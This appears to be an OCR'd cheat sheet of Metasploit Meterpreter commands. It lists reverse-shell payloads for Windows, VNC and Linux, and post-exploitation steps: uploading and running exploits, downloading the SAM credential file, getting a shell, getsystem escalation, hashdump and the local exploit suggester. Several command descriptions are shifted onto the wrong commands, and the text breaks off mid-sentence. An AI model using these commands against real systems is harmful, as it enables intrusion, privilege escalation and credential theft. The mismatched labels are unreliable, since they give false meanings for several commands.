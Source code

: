 ```
**Meterpreter** 
===============

### **Windows reverse meterpreter payload**

-   set payload windows/meterpreter/reverse_tcp

    -   Windows reverse tcp payload

### **Windows VNC Meterpreter payload**

-   set payload windows/vncinject/reverse_tcp

    -   Meterpreter Windows VNC Payload
-   set ViewOnly false

### **Linux Reverse Meterpreter payload**

-   set payload linux/meterpreter/reverse_tcp

    -    Meterpreter Linux Reverse Payload

### **Meterpreter Cheat Sheet**

-   upload file c:\\windows

    -   Meterpreter upload file to Windows target
-   download c:\\windows\\repair\\sam /tmp

    -   Meterpreter download file from Windows target

-   execute -f c:\\windows\temp\exploit.exe

    -   Meterpreter run .exe on target -- handy for executing uploaded
        exploits
-   execute -f cmd -c

    -   Meterpreter gain shell
-   SHELL=/bin/bash script -q /dev/null

    -   Creates new channel with cmd shell
-   ps

    -   Meterpreter show processes
-   shell

    -   Meterpreter get shell on the target
-   getsystem

    -   Meterpreter attempts priviledge escalation the target
-   hashdump

    -   Meterpreter get priveleges
-   getprivs

    -   Meterpreter exploit suggester
-   run post/multi/recon/local_exploit_suggester

    -   Meterpreter run powershell
-   load powershell
    powershell_shell

    -   Meterpreter attempts to dump the hashes on the target (must have
```